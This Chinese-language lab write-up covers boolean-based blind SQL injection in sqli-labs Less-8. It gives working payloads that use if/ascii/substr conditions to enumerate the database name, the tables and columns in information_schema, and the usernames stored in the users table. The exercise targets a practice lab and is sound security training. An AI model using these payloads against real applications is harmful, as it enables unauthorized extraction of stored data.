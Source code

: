 ## 准备工作

1. 开启Apache和MySQL

   打开已经安装sqli-labs的kali，输入如下指令

   ```shell
   sudo service apache2 start
   sudo service mysql start
   ```

2. 外部访问slqi网页

   打开宿主机的浏览器，访问

   ```
   http://192.168.3.99/sqli-labs/
   ```

   192.168.3.99为kali的IP地址

3. 使用postman工具

   打开postman工具，跳过登录直接进入主界面

   进入Collections选项卡，点击Create a request创建访问

   ![](./img/sqli-less8/1.PNG)

   在地址栏中填入需要执行sql注入的地址，在下面的Query Params中添加要注入的属性和值

   ![](./img/sqli-less8/2.PNG)

   点击send发送后，在下方的Body栏中的Preview中可以预览页面

   ![](./img/sqli-less8/3.PNG)



## 开始注入

本次注入练习的是sqli-labs里的less8

### 1. 获取数据库名称

1. 通过尝试，id值正确时，网页会显示You are in...........，错误的id值不会出现这段提示，依此确定注入成功与否

   ![](./img/sqli-less8/4.PNG)

2. 猜数据库长度：

   ```
   1' and if(length(database())=8,1,0) --+
   							 ↑
   						  从1开始猜
   ```

   - length(a)：获取字符a的长度

3. 猜测数据库第一个字母

   将id值设为

   ```
   1' and if(ascii(substr(database(),1,1)) = 115,1,0) --+
   								↗		   ↑
   					猜数据库的第几个字母	 猜a-z,0-9,A-Z的ascii码值
   ```
   
   解析：
   
   - if(a,b,c)：a是一个表达式，如果正确返回b，错误返回c
   - substr(a,b,c)：a为需要截取的字符串，b是起始位置（以1开始），c为要截取的长度
   - ascii(a)：将字符a转换成ascii码
   
   第一个字母为115号ascii码值：s，后面7个字符一个个试

### 2. 获取数据库下的表名

1. 表的数量

   ```
   1' and if((select count(*)table_name from information_schema.tables where table_schema='security')=4,1,0) --+
   ```

2. 表名称的长度

   ```
   1' and if((select length(table_name) from information_schema.tables where table_schema='security' limit 0,1)=6,1,0) --+
   								   ↑
   								 从1开始
   ```

   select length(table_name) from information_schema.tables where table_schema='security' limit 0,1解析：

   返回结果是当前表的表名长度

3. 表名称

   ```
   1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101,1,0) --+
   ```

   需要修改的值跟猜数据库名时一样

### 3. 获取列名

1. 字段数量

   ```
   1' and if((select count(*)column_name from information_schema.columns where table_schema='security'and table_name='users')=3,1,0) --+
   ```

   select count(*)column_name from information_schema.columns where table_schema='security'and table_name='users'

   查询结果为user表下的字段数量

2. 字段长度

   ```
   1' and if((select length(column_name) from information_schema.columns where table_schema='security' and table_name='users' limit 0,1)=2,1,0) --+
   ```

   select length(column_name) from information_schema.columns where table_schema='security' and table_name='users' limit 0,1

   查询结果为第一个字段的长度

   - 修改limit 0,1中的0,1来决定猜第几个字段
   - 修改2,1,0中的2来猜这个字段的长度

3. 字段名称

   ```
   1' and if(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 1,1),1,1))=117,1,0) --+
   ```

   select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 1,1

   查询结果是字段名

    

### 4. 获取数据

1. 数据库表的数据数量

   ```
   1' and if((select count(username) from users)=13,1,0) --+
                                                  ↑
                                                 数量
   ```

2. 数据的长度

   ```
   1' and if((select length(username) from users limit 0,1)=4,1,0) --+
                                                            ↑
                                                           长度
   ```

3. 数据值

   ```
                                                      第n个字符 ↘
   1' and if(ascii(substr((select username from users limit 0,1),1,1))=68,1,0) --+
                                                                       ↑
                                     ↑             ↑        ↑       字符的ascii
                                    字段名        表名    第n-1条记录
   ```

   

